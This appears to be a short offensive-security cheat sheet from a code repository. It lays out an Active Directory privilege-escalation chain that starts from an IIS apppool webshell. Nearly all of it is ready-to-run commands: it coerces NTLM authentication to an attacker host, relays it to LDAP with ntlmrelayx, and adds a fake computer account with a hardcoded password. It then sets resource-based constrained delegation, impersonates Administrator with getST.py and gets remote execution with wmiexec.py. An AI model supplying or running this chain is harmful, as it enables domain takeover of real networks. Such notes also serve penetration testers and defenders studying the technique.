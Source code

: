 # Quickwin - IIS apppool account NTLM Relay to LDAP with RBCD

## Intro

Privilege escalation IIS apppool webshell to Admin

## HTTP coerce of the machine account

```shell
powershell -iwr http://<ip_attack> -UseDefaultCredentials
responder -I <interface> -v
```

### NTLM Relay to LDAP for RBCD (ou Shadow credentials)

```shell
ntlmrelayx -t ldap://<dc_ip> -smb2support --interactive
nc 127.0.0.1 11000
# start_tls
# add_computer fakePC P@ssword123
# set_rbcd <target_rbcd> fakePC$ 
```

### Profit :)

```shell
getsT.py -spn cifs/<target_rbcd>.example.com -impersonate Administrator -dc-ip <dc_ip/fqdn> 'example.com/fakePC$:P@ssword123'
export KRB5CCNAME=Administrator@cifs_<target_rbcd>.example.com.ccache
wmiexec.py -k -no-pass @<target_rbcd>.example.com
```

## Sources
- https://x.com/M4yFly/status/1745581076846690811
